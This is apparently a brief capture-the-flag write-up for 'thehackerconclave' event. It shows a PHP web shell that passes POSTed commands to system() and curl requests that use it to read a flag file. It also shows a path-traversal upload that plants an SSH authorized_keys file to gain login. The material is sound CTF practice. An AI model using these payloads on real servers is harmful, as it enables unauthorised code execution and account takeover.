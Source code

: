 ```yaml
---
created: 2024-06-27T07:05
updated: 2024-06-30T21:27
tags:
  - box
---
```


# thehackerconclave

3 hour CTF with a bunch of typos and mis-management.

Joined [@WorldWideFlags](https://ctftime.org/team/283853) on this one.

## Bad Upload

### Payload

```php
<?php
echo 'Command:';
if($_POST){
system($_POST['cmd']);
}
__halt_compiler();
?>
```

Simply edit the HTML markup, and replace one of the option values with `php`.

```shell
curl --request POST \
  --url http://ctf.thehackerconclave.es:20003/documents/payload.php \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data 'cmd=cat /flag/flag.txt'
```

## Backup server

### Generate Key

```sh
ssh-keygen
```

### Rename public key to `authorized_keys` and upload to `.ssh/`

```curl
curl --request POST \
  --url http://ctf.thehackerconclave.es:20007/index.php \
  --header 'Content-Type: multipart/form-data' \
  --form 'file=@authorized_keys' \
  --form directory=../.ssh
```

### Connect to it with private key

```shell
 ssh -i sshkey user1@ctf.thehackerconclave.es -p 20008
```


